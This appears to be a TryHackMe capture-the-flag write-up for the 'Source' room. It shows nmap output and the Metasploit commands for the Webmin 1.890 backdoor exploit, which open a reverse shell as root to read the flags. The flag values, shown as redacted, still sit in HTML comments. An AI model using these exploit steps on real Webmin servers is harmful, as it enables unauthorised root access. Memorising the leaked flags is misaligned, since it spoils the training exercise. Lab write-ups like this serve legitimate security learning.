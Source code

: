 > # Source

# Summary
<!-- TOC -->

- [Summary](#summary)
    - [user.txt](#usertxt)
    - [root.txt](#roottxt)

<!-- /TOC -->

## user.txt
Scan the target first, you will see at port 10000 it use Webmin webapp version 1890
```
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-25 01:32 EST
Nmap scan report for 10.10.209.29
Host is up (0.24s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
Search this webapp on [expploitDB](https://www.exploit-db.com/), there's vulnerable `Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit)` which available on metasploit
```
use exploit/linux/http/webmin_backdoor
set ssl true
set rhosts IP
set lhost tun0
(default listening port is 4444)
run
```
After running the exploit, we will receive a reverse shell as root<br>
![](images/1.png)<br>

Read user.txt in /home/dark/user.txt<br>
![](images/2.png)<br>
<!-- THM{SUPPLY_CHAIN_COMPROMISE} -->
**Answer:** THM{\<redacted>}

## root.txt
As I already have been root user, just read the root flag in /root/root.txt<br>
![](images/3.png)<br>
<!-- THM{UPDATE_YOUR_INSTALL} -->
**Answer:** THM{\<redacted>}
